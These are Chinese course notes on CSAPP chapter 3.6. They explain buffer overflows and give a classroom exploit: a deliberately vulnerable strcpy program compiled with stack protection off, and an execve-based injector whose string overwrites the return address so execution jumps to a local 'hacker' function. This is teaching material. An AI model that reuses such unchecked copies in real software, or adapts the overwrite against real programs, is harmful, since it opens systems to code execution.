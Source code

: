```yaml
---
title: 'Chapter III-6'
description: 'CSAPP NOTE CHAP III-6'
order: 8
---
```


# Chap 3.6 越界访问和缓冲区攻击

## 缓冲区溢出

**定义** C 语言没有对数组的边界作出约束，因此访问下标可能越界，称为 **缓冲区溢出**

例如：

1. char s[10];
2. s[10] = -1; // 越界
3. char *p = s;
4. *(p + 13) = 40; // 越界

​	第 2 行、第 4 行的数组访问，都超出了数组的边界，产生了缓冲区溢出。

## 缓冲区溢出攻击

**原理** 由于数组/缓冲区是局部变量，都放在堆栈段里，而程序的返回点也在堆栈段里，因此利用缓冲区溢出修改对应返回点，让程序跳进自己的恶意代码即可攻击。

**原因** 没有对栈中作为缓冲区的数组做越界检查。

**例子** 利用缓冲区溢出转到自设的程序 hacker 去执行 outputs 漏洞：当命令行中字符串超 25 个字符时，使用 `strcpy` 函数就会使缓冲 buffer 造成写溢出并破坏返址

```c
#include "stdio.h"
#include "string.h"
void outputs(char *str) 
{ 
    char buffer[16]; 
    strcpy(buffer,str); 
    printf("%s \n", buffer);
}
void hacker(void)
{
    printf("being hacked\n");
}
int main(int argc, char *argv[])
{
    outputs(argv[1]);
    return 0;
}
```

> 编译时，关闭堆栈保护和 PIE (Position Independent Executable), 编译命令为
>
> `gcc -g -m32 -fno-stack-protector -no-pie -fno-pic -o test test.c`

由于无法从控制台直接输入 ascii 码，因此编写一个程序调用 execve() 系统函数，启动 test 可执行程序，并注入攻击字符串。

```c
// exec.c
#include "stdio.h"
char code[] = 
  "0123456789ABCDEF0123456789AB"
  "\xc5\x91\x04\x08"
  "\x00";
int main(void) 
{
  char *arg[3];
  arg[0] = "./test";
  arg[1] = code;
  arg[2] = NULL;
  execve(arg[0], arg, NULL);
  return 0;
}
```

运行结果如下：

![image-20251022144318401](https://img.nkns.cc/PicGo/image-20251022144318401.png)

因为 `"\xc5\x91\x04\x08"` 这里是对应的程序返回地址，这里将它覆盖成了 `0x080491c5` ，成功执行 hacker 函数。
